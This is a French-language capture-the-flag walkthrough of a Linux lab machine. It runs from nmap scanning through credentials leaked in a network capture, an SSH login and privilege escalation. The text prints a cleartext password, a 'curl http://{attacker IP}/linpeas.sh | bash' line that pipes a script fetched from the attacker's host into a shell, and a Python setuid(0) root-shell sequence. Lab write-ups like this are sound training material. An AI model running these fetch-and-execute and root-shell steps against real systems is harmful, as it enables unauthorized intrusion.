 ![[Pasted image 20250216154106.png]]

### About machine:
---
- **IP**:
```
 10.10.10.245
```
- **OS**: Linux

### step1: nmap
---

![[Pasted image 20250216155235.png]]

**tentative** de connéxion à **ftp** échoué:
![[Pasted image 20250216155612.png]]
Du coup on passe à **HTTP**. Selon **nmap**, le **port 80** utilse **gunicorn**

- **gunicorn**: Gunicorn (_Green Unicorn_) est un serveur WSGI pour les applications Python, principalement utilisé pour déployer des applications web basées sur des frameworks comme Flask ou Django. Il est conçu pour être performant, compatible avec Unix et basé sur un modèle d'ouvriers (_workers_).

On voit que la capture **wireshark** avec l' **Id=4** n'a rien d'interressant:
![[Screenshot From 2025-02-16 16-22-10.png]]
par contre quand on met **id = 0**, on a
![[Pasted image 20250216174309.png]]on voit un **user = nathan** et un **pass = Buck3tH4TF0RM3!**
- On peut lancer une attaque **ssh**:
```
ssh {user}@{Target IP}
```
une fois connécter: on lance la commande  `ls` puis `cat`

![[Pasted image 20250216175333.png]]
On sait aussi que ce mot de passe fonctionne sur le service **ssh**

### Augmentation des privilèges:
---
##### LinPeas :
excellent outil pour détecter les failles d’élévation de privilèges sur un système Linux
- **Instalation**:

```
wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh
chmod +x linpeas.sh

```
- **Transfert de LinPeas vers la cible** (machine attaquant):
```
sudo python3 -m http.server 8080

```

- **se connecter au serveur créer** (machine cible):

```
curl http://{Ip machine attaquant}/linpeas.sh | bash
```

- Une fois la machine cible connécter:

```
cd /tmp
```

Une fois dans le répertoire /tmp:

```
/usr/bin/python3.8
```

puis:

```
>>> import os
>>> os.setuid(0)
>>> os.system("/bin/bash")
```

- Après ça, on devrait être connécter en tant que **root**, il ne reste plus qu'à taper `ls -la /root` et on devrait trouver le **root-flag**
